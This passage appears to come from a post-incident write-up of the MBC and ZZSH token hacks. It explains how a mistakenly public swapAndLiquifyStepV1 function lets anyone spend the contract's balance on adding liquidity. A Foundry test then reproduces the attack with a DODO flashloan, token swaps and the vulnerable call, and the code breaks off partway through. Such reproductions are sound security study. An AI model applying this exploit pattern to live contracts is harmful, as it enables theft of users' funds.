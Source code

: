 The `addLiquidityUsdt` function directly calls the Router's `addLiquidity` function, using all of the contract's balances as parameters to add liquidity for the `tokenOwner`. It's evident that `swapAndLiquifyStepV1` is merely a wrapper for the `addLiquidity` function, allowing the contract's balance to be used for liquidity addition. This functionality should have been a `private` function, but it's mistakenly declared as `public`, enabling attackers to use the contract's balance to add liquidity. (Moreover, based on the attack transaction, it seems that no actual swapping occurred, and liquidity was added directly.) 

The ZZSH contract has identical code to the MBC contract.

## Exploit

### Reproduce

To reproduce the exploit based on the AttackTx, follow the steps below.

```solidity
function testExploit() external {
    uint attackBlockNumber = 23474460;
    cheats.rollFork(attackBlockNumber);

    uint startBalance = usdt.balanceOf(address(this));
    emit log_named_decimal_uint("Initial attacker USDT", startBalance, usdt.decimals());
    uint dodoUSDT = usdt.balanceOf(dodo);
    // Start flashloan
    DPPOracle(dodo).flashLoan(0, dodoUSDT, address(this), abi.encode("dodo"));
    
    // Attack ends
    uint endBalance = usdt.balanceOf(address(this));
    emit log_named_decimal_uint("Total profit USDT", endBalance - startBalance, usdt.decimals());
}

function dodoCall(address /*sender*/, uint256 /*baseAmount*/, uint256 quoteAmount, bytes calldata /*data*/) internal {
    if (msg.sender == dodo) {
        emit log_named_decimal_uint("Total borrowed USDT", usdt.balanceOf(address(this)), usdt.decimals());

        // Approve before swap
        usdt.approve(address(pancakeRouter), type(uint).max);
        mbc.approve(address(pancakeRouter), type(uint).max);
        zzsh.approve(address(pancakeRouter), type(uint).max);

        attack();

        // Repay flashloan
        usdt.transfer(dodo, quoteAmount);
    }
}

function attack() internal {
    USDT2VulToken(mbc_usdt);

    mbc.swapAndLiquifyStepv1();
    // mbc_usdt.sync(); // unnecessary

    usdt.transfer(address(mbc_usdt), 1001);  // According to _isAddLiquidityV1 function when calling _transfer, to avoid executing swapAndLiquify function
    VulToken2USDT(mbc_usdt);

    // zzsh
    USDT2VulToken(zzsh_usdt);
    zzsh.swapAndLiquifyStepv1();
    usdt.transfer(address(zzsh_usdt), 1001);
```
